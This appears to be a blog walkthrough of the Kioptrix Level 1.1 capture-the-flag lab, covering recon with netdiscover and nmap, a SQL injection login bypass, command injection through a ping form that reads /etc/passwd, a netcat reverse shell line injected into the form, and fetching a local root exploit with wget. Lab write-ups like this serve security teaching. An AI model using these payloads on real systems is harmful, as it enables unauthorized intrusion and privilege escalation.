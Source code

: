 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. The attacker finds a login form when he lands on the home page. It appears to be used for administrative purposes. 

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

Surprisingly, he was able to display the contents of /etc/passwd for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

He found a local root exploit but he needed to get it over to kioptrix. He set up a python simple server to host my exploit.

![Image description](/images/kioptrix1.2.13.png)

Then he used wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

He compiled the exploit, and then ran it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

